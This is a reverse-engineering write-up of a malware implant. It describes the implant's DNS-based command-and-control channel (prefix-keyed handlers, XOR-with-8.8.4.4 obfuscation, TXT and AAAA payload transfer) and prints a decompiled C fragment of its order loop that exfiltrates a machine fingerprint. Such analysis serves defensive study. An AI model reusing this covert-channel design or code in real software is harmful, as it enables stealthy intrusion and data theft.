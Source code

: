 We get some garbage "headers", followed by a classic MZ header: after removing the garbage, we get a PE file that loads nicely in IDA, and we are lucky because it's that PE which is mapped in 0x180000 (the mysterious code in the second thread). So we can see that the sleep is called in a function that does DNS resolving.

A few moments later, after having analyzed a part of the implant, I figured that it contacted its C&C with DNS, and had several "handlers" for it:
 - if the requested name starts by "www.", the malware sends RSA-encrypted "fingerprint" of the machine to the C&C, along with an AES sesion key to talk to the server
 - if the requested name start directly by a random hex number, the bot queries orders from the C&C. The response is in a A DNS record and xored with "8.8.4.4" IP in big endian
 - If the requested name starts by "api.", the client first sends a A request to get the payload size (always xored by 8.8.4.4), and then issues TXT queries, and server replies with base64 data
 - If the request starts by "cdn.", then the first A request contains payload size, and further A requests the payload data xored by 8.8.4.4 (big endian DWORD)
 - There is also "www6." handler, which seem to be the same with cdn. but with AAAA records (IPv6 addresses are longer, so more data can be sent as response)
```c
    if ( (unsigned int)QueryCnCOrder(fetchOrderDns, &ip_obf) )
      {
        v15 = v12 ^ ntohl(ip_obf);
        ip_obf = v15;
        if ( v15 && (v15 & 0xFFFFFFF0) == 240 )
        {
          sub_18000EF14(v15);
          v16 = ip_obf;
          if ( (ip_obf & 1) != 0 )
          {
            exfiltrateData(v13, a1, (__int64)&encryptedFingerprint, encryptedFingerprintSize);
            v16 = ip_obf;
          }
          if ( (v16 & 2) != 0 )
          {
            cncLen = get_encrypted_int(4u);
            v18 = sendTxtRequest(a1, (char *)bufferFromServer, cncLen);
          }
          else if ( (v16 & 4) != 0 )
          {
            www6Len = get_encrypted_int(4u);
            v18 = sendWww6Typ(a1, bufferFromServer, www6Len);
          }
          else
          {
            cdnLen = get_encrypted_int(4u);
            v18 = sendCdnRequest(a1, bufferFromServer, cdnLen);
          }
          if ( v18 > 0 )
          {
            v21 = decryptResponse(bufferFromServer, v18);
            if ( v21 > 0 )
              doStuffWithResponse(bufferFromServer, (unsigned int)v21);
          }
        }
```
